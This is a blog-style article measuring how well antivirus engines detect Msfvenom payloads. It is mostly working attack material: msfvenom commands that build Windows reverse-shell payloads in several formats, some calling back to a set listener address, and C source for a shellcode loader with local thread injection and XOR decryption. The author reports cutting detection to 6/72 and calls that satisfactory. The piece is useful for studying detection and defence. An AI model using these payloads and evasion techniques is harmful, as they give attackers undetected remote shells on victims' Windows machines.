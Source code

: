 ```yaml
---
title: Msfvenom detection in 2024
createdAt: 09/06/2024
---
```


In this article, I would like to do a little research on how well payload generated by Msfvenom is detected. Of course, we are mainly talking about static malware detection. Many people believe that payloads generated by Msfvenom are nowadays unusable in general. The issue is not so simple.

> All compiled / generated files were checked using VirusTotal. This is where the level of detection comes from.

A brief overview of the Msfvenom parameters which can affect the detection:

- `-p <payload>` - shellcode (this thing that gives us a reverse shell);
- `-e <encoding>` - encoding of the shellcode; `--iterations` - how many times the shellcode should be encoded;
- `--encrypt <alg>` - encryption of the shellcode; `--encrypt-key` - encryption key;
- `f <format>` - output format. There are essentially two possibilities: file format (executable) or payload format (a string ready to use in your own malware code).

## Default executables

Let's see how well the default executable formats generated by Msfvenom are detected.

### EXE

Pure:

```bash
# Detection: 58/73
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o file.exe
```

Encoding:

```bash
# Detection: 54/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai -f exe -o file.exe

# Detection: 55/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/bloxor -f exe -o file.exe

# Detection: 53/73
msfvenom -p windows/x64/shell_reverse_tcp -e x64/zutto_dekiru -f exe -o file.exe
```

Encryption:

```bash
# Detection: 56/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --encrypt aes256 --encrypt-key print3m -f exe -o file.exe

# Detection: 53/73 
msfvenom -p windows/x64/shell_reverse_tcp -e x86/bloxor --encrypt rc4 --encrypt-key print3m -f exe -o file.exe

# Detection: 54/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --encrypt xor --encrypt-key print3m -f exe -o file.exe
```

Everything together:

```bash
# Detection: 56/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f exe -o file.exe
```

**Conclusion**: Encryption and encoding actually don't matter while using `-f exe`. Not only the payload but the execution itself (template) is very well detected. The default execution is always the same, it's the easiest part to detect being an antivirus software. By the way, this is not true only for `exe` files. Below I have presented other formats (also with default templates) with similar results. The conclusion is simple: **never use ready-made executable formats and default templates**.

### DLL

```bash
# Detection: 41/73
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f dll -o file.dll
```

### VBS

```bash
# Detection: 35/64
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f vbs -o file.vbs
```

### MSI

```bash
# Detection: 40/64
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f msi -o file.msi
```

### HTA

```bash
# Detection: 33/61
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 5 --nopsled 17 --smallest --encrypt rc4 --encrypt-key print3m -f hta-psh -o file.hta
```

### CMD

```bash
# Detection: 16/64 
msfvenom -p windows/x64/shell_reverse_tcp -e x86/shikata_ga_nai --iterations 2 --smallest --encrypt rc4 --encrypt-key print3m -f psh-cmd -o file.cmd
```

## Custom executable

Using a custom code, we control how the shellcode is executed, which is the most sensitive point of the finished files generated by Msfvenom. We still use the shellcode generated by Msfvenom and look at how well the compiled file is detected.

The simplest local thread injection:

```c
#include <Windows.h>
#include <stdio.h>
#include <stdint.h>

uint8_t shellcode[] = "PAYLOAD:";

int main() {
    // Allocate memory
    void* mem = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    if (mem == NULL) {
        printf("[!] VirtualAlloc error: %d \n", GetLastError());
        return -1;
    }

    // Copy the shellcode to the allocated memory
    memcpy(mem, shellcode, sizeof(shellcode));

    // Set original shellcode to 0
    memset(shellcode, 0x00, sizeof(shellcode));

    // Change allocated memory permissions
    DWORD old_protect = NULL;
    if (!VirtualProtect(mem, sizeof(shellcode), PAGE_EXECUTE, &old_protect)) {
        printf("[!] VirtualProtect error: %d \n", GetLastError());
        return -1;
    }

    // Create a thread
    HANDLE thread = CreateThread(NULL, NULL, mem, NULL, NULL, NULL);
    if (thread == NULL) {
        printf("[!] CreateThread error: %d \n", GetLastError());
        return -1;
    }

    WaitForSingleObject(thread, INFINITE);

    // Exit
    getchar();
    return 0;
}
```

No anti-AV measures, just a custom template. Immediately, we see a huge decrease in detection by 24 antiviruses. For the exact same shellcode (without any encryption or encoding) in the default template the detection was 58/73. And we didn't even try very hard to hide anything.

```bash
# Detection: 34/72
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.53 LPORT=8888 -f c 
```

With simple XOR encryption in the template itself. Shellcode is decrypted by C code before injection and execution.

```c
uint8_t shellcode[] = "PAYLOAD:";
uint8_t xor_key[] = {'p', 'r', 'i', 'n', 't', '3', 'm'};

// XOR encryption / decryption
void xor(uint8_t shellcode[], size_t shellcode_sz, uint8_t key[], size_t key_sz) {
    for (size_t i = 0; i < shellcode_sz; i++) {
        // Get byte of key
        uint8_t byte_key = key[i % key_sz]; 

        // Calculate value
        shellcode[i] = shellcode[i] ^ byte_key;
    }
}
```

XOR encryption is built-in into Msfvenom. As we can see with a simple xor the detection is even lower.

```bash
# Detection: 27/72
msfvenom --encrypt xor --encrypt-key print3m -p windows/x64/shell_reverse_tcp  LHOST=192.168.1.53 LPORT=8888 -f c
```

When uploading this malware to Virus Total, some antiviruses write out that they supposedly found a meterpreter payload, but this is not true. Detection rate is still pretty high because our shellcode injection technique is very simple, it doesn't use any advanced techniques, and it's known to many antiviruses. As you can see, for most of them it's still undetectable but e.g. GData, Kaspersky or Windows Defender easily detects the local thread injection technique.

However, it is enough to use a slightly more complicated shellcode injection technique and the **static detection level drops to 6/72**. I used a simple remote process shellcode injection technique ([example source code](https://github.com/Print3M/malware-dev/blob/main/shellcode_process_injection.c)) and  the result is very satisfactory.

## Conclusion

Msfvenom's generated malware files are detected without the slightest difficulty by any serious antivirus software. Encryption, encoding and different file formats generally do not help at all. However, using shellcode generated by Msfvenom in your own code (custom template) is still possible. Using a simple XOR, we are able to hide Msfvenom shellcode and the level of detection then depends mostly on how the payload is executed.

~ Print3M
